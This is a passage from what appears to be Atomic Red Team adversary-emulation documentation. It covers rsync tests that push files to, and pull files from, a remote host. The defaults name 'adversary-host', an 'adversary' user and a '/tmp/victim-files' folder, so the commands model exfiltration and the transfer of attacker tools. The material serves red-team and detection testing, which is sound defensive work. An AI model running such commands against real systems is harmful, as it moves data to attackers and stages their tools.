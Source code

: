 
#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
rsync -r #{local_path} #{username}@#{remote_host}:#{remote_path}
```




#### Dependencies:  Run with `sh`!
##### Description: rsync must be installed on the machine
##### Check Prereq Commands:
```sh
if [ -x "$(command -v rsync)" ]; then exit 0; else exit 1; fi
```
##### Get Prereq Commands:
```sh
(pkg install -y rsync)||(sudo apt-get -y install rsync)
```




<br/>
<br/>

## Atomic Test #2 - rsync remote file copy (pull)
Utilize rsync to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 3180f7d5-52c0-4493-9ea0-e3431a84773f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | Path of folder to copy | path | /tmp/adversary-rsync/|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive rsync | path | /tmp/victim-files|
| username | User account to authenticate on remote host | string | adversary|


#### Attack Commands: Run with `sh`! 


```sh
rsync -r #{username}@#{remote_host}:#{remote_path} #{local_path}
```

